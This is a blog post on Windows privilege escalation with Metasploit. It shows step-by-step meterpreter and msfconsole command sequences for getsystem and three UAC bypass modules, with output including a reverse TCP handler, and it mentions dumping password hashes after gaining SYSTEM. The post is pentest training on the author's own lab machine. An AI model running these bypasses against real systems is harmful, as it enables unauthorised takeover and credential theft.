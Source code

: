 ```yaml
---
title: Privilege Escalation in Windows
date: 2017-05-14 00:00:00 Z
layout: post
---
```


Dusting off `msfconsole` and the Metasploit framework itself, it was time for me to get back on my feet with penetration testing.
<!--more-->
With the recent ransomware [WannaCry](http://www.cnn.com/2017/05/14/opinions/wannacrypt-attack-should-make-us-wanna-cry-about-vulnerability-urbelis/) spreading throughout the globe, I pondered upon the question on how malware is able to attain system-level privileges on a Windows machine, locking it down, and making it near-impossible to circumvent.

When utilizing Metasploit against Windows targets, its essential to escalate user privileges to __SYSTEM__, otherwise being stuck on a user account with regular permissions limit the pentest. As penetration testers, privilege escalation is considered the most critical point of the post-exploitation step, and all the hard work from gaining initial access, maintaining persistence and circumventing the anti-virus will all seem meaningless.

What are some fun things we can do once we attain __SYSTEM__?

* Attain passwords, including hashes for any accounts on the system ('hashdump')
* Change passwords, create users and change permissions (even administration)
* Pivot to other workstations

A lot of the higher system-level functions of Metasploit rely on gaining system. Many penetration testers work immediately at privilege escalation once the machine is pwned.

Metasploit's `meterpreter` console comes with some built-in Ruby scripts that can already help with the process.

    msf exploit(ms08_067_netapi) > exploit
    ...
    meterpreter > getsystem

In this case, I utilized the built in `getsystem` script. Well, what __exactly__ does `getsystem` do? `getsystem` works on three different techniques. Although I won't go in detail about how they work, Cobalt Strike (a Metasploit GUI framework) wrote a [great blog post](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/) about it.

This exploit, CVE-2008-4250, is one of the staples of vulnerabilities in the early Windows XP operating systems. Yes, Windows __XP__. What happens if we attempt to gain privileges on a pwn'ed Windows 8 or 10 machine?


    msf exploit(handler) > exploit
    ...
    meterpreter > getsystem
    [-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)

Using a standard Veil-Evasion encrypted Meterpreter payload binary, I gained physical access inside my test Windows 10 machine. Not as fun as fileless access, but gets the work done. However, when we attempt to utilize `getsystem` this time, all three methods of it ceased to work. Even doing `getprivs` doesn't yield us that many permissions.

    meterpreter > getprivs
    ============================================================
    Enabled Process Privileges
    ============================================================
    SeShutdownPrivilege
    SeChangeNotifyPrivilege
    SeUndockPrivilege

And keep in mind that this is a standard Windows 10 machine WITHOUT any AVs except for the standard Windows Defender. So, what happened?

## User Account Control

Now's a great time to talk about Window's UAC, or User Account Control feature. This feature was implemented as a security feature such that hackers are not able to gain privileges. This means that in order for a regular user to utilize some sort of service of application that is available exclusively to the administrator, a popup prompt will pop out requesting authentication as a Administrator. Sounds familiar? You definitely has seen UAC before, with all its warnings about unknown publishers for some applications, turning off certain features in the Windows settings, etc.

![uac](http://bit.ly/2qGTpjE)

On Windows 10, UAC has become much more stricter, such that impersonating SYSTEM with `getsystem` becomes much harder ... but not impossible.

## A Few Methods to Bypass UAC

In order to circumvent this, we need to rely on some different techniques.

### Windows Escalate UAC Protection Bypass

This is a method which spawns a new shell session with UAC disabled as a process. This attack works, however, on the basis that UAC is set as "Notify me only when programs try to make changes to my computer", which is standard for many operating systems.

 Let's background our current `meterpreter` session and load it up.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac
    msf(bypassuac) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(bypassuac) > set TARGET 1
    TARGET => 1
    msf(bypassuac) > set SESSION 2
    SESSION => 2
    msf(bypassuac) > exploit
    ...

Once complete, we are able to `getsystem` as we did previously.

Of course, this may not totally work. If UAC is set to "Always Notify", loading this process as part of memory will fail. Therefore, if you use a build of Windows that is Vista it will not work, as this is feature is default. In this case, the attack against my Windows 10 build failed

    msf exploit(bypassuac) > exploit

    [*] Started reverse TCP handler on 192.168.1.170:4444
    [-] Exploit aborted due to failure: not-vulnerable: Windows 10 (Build 14393). is not vulnerable.
    [*] Exploit completed, but no session was created.


### Windows Escalate UAC Protection Bypass (In Memory Injection)

This exploit aims to to inject a DLL binary through the Reflective DLL Injection technique. Similar to the previous exploit, it is important to specify the architecture of the machine.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac_injection
    msf(bypassuac_injection) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(bypassuac_injection) > set TARGET 0
    TARGET => 0
    msf(bypassuac_injection) > set SESSION 2
    SESSION => 2
    msf(bypassuac_injection) > exploit
    ...

### Windows Escalate UAC Execute RunAs

This last exploit was actually from [this Metasploitation video](https://www.youtube.com/watch?v=OqmxRIqC3FE&feature=youtu.be) and was conceived by Hak5's [mubix](https://room362.com/). I find this privilege escalation method the most effective, but it does add on a caveat of the target user having to explicitly click on a UAC notification. This exploit calls upon the Windows `ShellExecute` function to start a shell with UAC-bypassed privileges. Once again, it is important that you set the necessary target architecture.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/ask
    msf(ask) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(ask) > set TARGET 0
    TARGET => 0
    msf(ask) > set SESSION 2
    SESSION => 2
    msf(ask) > exploit
    ...

Once executed, UAC will give a prompt to a user. Once completed, the exploit finishes, and you are able to `getsystem`.

---

Thanks for reading this article! Although I had fun getting my feet wet with Metasploit again, I still am reminded about how uninformed I am about the Win API, and really want to dive into binary exploitation, as well as acquainting myself with the Windows architecture for security-oriented purposes. With that said, expect some more fun stuff in the future combining both penetration testing and programming!

With that said, stay safe and good luck with your endeavors!
